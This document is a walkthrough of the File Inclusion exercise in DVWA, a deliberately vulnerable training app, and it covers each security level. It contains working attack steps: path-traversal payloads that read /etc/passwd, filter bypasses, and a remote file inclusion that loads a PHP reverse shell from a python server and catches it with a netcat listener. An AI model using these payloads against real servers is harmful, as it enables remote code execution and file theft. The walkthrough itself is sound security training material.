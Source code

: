 # File Inclusion

## About

> Some web applications allow the user to specify input that is used directly into file streams or allows the user to upload files to the server.<br/>
> At a later time the web application accesses the user supplied input in the web applications context. By doing this, the web application is allowing the potential for malicious file execution.<br/>
> If the file chosen to be included is local on the target machine, it is called "Local File Inclusion (LFI). But files may also be included on other machines, which then the attack is a "Remote File Inclusion (RFI).<br/>
> When RFI is not an option. using another vulnerability with LFI (such as file upload and directory traversal) can often achieve the same effect.
> 
> Note, the term "file inclusion" is not the same as "arbitrary file access" or "file disclosure".

Source: DVWA Documentation

## Low Security

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi1.png?raw=true">
</p>

For this vulnerability we have 3 buttons to file1.php, file2.php and file3.php.
When we access for example the first file, we can see in the URL, the name of the file sent it as the value for the `page` parameter.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi2.png?raw=true">
</p>

This value can be changed to the name of other valid files from the server. Below we can see that we manage to access the file4.php, even if this was not displayed as an option.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi3.png?raw=true">
</p>

To move around to the server's directories we can use `../../`. Every `../` will move us to the parent directory.
Using this syntax, we can read files from different places.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi4.png?raw=true">
</p>

For example we can use: `http://localhost/DVWA/vulnerabilities/fi/?page=../../../../../../../../etc/passwd` to read all local users on the server.
This payload is using many `../`, because we want to access the `/etc/passwd` from the root path `/`. So we add many `../` to be sure that we arrived at the root path.

The source code looks like this:
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

?> 
```
So we can see that the parameter is missing any validation.

The objective of this exercise is to gain access to `../hackable/flags/fi.php` and to read all five quotes.
The exact payload does not work, but going back one more directory we will successfully include the file into the page.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi5.png?raw=true">
</p>

Ok, we can read some of the quotes, but not all five. Visiting the source code of the page we can see that the fifth quote is commented.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi6.png?raw=true">
</p>

Even if we directly visit the page, not through the file inclusion vulnerability, a prevention measure was put in place for that.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi7.png?raw=true">
</p>

That means that the third one is not accessible via client-side.

## File Inclusion vs Directory Traversal
The difference between these 2 is that through the directory traversal vulnerability we will be able to read files from the system, but with file inclusion, the file is also included in the page.
This is why we were not able to read the fifth quote directly from the page, because the php code was executed, so the comment line was treated as a comment and not included as text in the page.

For example reading `/etc/passwd` will be the same for directory traversal and also for file inclusion because is just a file with text.
Instead trying to read login.php, in directory traversal we will see all the content of the file as text, and in the file inclusion the content will be included in the page, like in the example below:

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi8.png?raw=true">
</p>

## Remote File Inclusion
Ok, we still didn't read the third quote, so what can we do?
There are 2 types of file inclusion, local and remote. We already saw in the previous examples the file included from the local, that means that the remote file inclusion will come from a different domain.
So instead of giving local files as parameter, we will give a new address: `http://localhost/DVWA/vulnerabilities/fi/?page=http://example.com/example.php`.
Now, on our page we will be able to see the content of the files from other domains.

RFI is more dangerous than LFI because usually leads to Remote Code Execution.
For the next example we will host a python server and use a reverse shell for the RFI vulnerability.

A php reverse shell can be downloaded from here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php <br/>
Edit it with the ip of your machine and the port you want to use, for this example the ip will be 127.0.0.1 and port 4444.<br/>
Start a python server at the location of the reverse shell file: `python3 -m http.server 4445`<br/>
Start a netcat listener: `nc -lvnp 4444`<br/>
And now we can access the URL: `http://localhost/DVWA/vulnerabilities/fi/?page=http://127.0.0.1:4445/rev.php`<br/>
Now we have access on the server and we can go and read the `/hackable/flags/fi.php` file.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi9.png?raw=true">
</p>

Is interesting that the fourth message is encrypted in the file, so we were able to read it the first time with the help of file inclusion vulnerability.

Note: In order to practice on RFI exercise, `allow_url_include` option should be enabled.

## Medium Security

Source code:
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
$file = str_replace( array( "http://", "https://" ), "", $file );
$file = str_replace( array( "../", "..\\" ), "", $file );

?> 
```

For the medium level we can see that we have some filters implemented. These filters are not enough, because can be easily bypassed.<br/>
To bypass `http://` we can use uppercase letters such as `hTTp://`.<br/>
And for `../` we can use `....//`. The match will be triggered once and the rest will apply normally. `..[../]/`.

## High Security

Source code:
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Input validation
if( !fnmatch( "file*", $file ) && $file != "include.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```

For this exercise, the file value starts with `file*` or is equal to `include.php` (this is the initial value).<br/>
When we open a local file with a browser, we have the URL in the format: `file:///home/ubuntu/document.txt`, so we can use this syntax in order to read the file that we want.

<p align="center">
  <img src="https://github.com/Abdy01/DVWA-Walkthrough/blob/main/File-Inclusion/!images/fi10.png?raw=true">
</p>

The only problem is that we need to know the full path to the file, but we can fuzz the URL until we get it.<br/>
For the RFI challenge, we need to chain the vulnerability with other one, such as File Upload, in order to upload a reverse shell and then to execute it using File Inclusion `file:///var/www/html/dvwa/shell.php`.

## Impossible Security

Source code:
```php
<?php

// The page we wish to display
$file = $_GET[ 'page' ];

// Only allow include.php or file{1..3}.php
if( $file != "include.php" && $file != "file1.php" && $file != "file2.php" && $file != "file3.php" ) {
    // This isn't the page we want!
    echo "ERROR: File not found!";
    exit;
}

?> 
```
For the Impossible level, the value of the parameter must be one of the files enumerated above. In this case we are not able to bypass it.
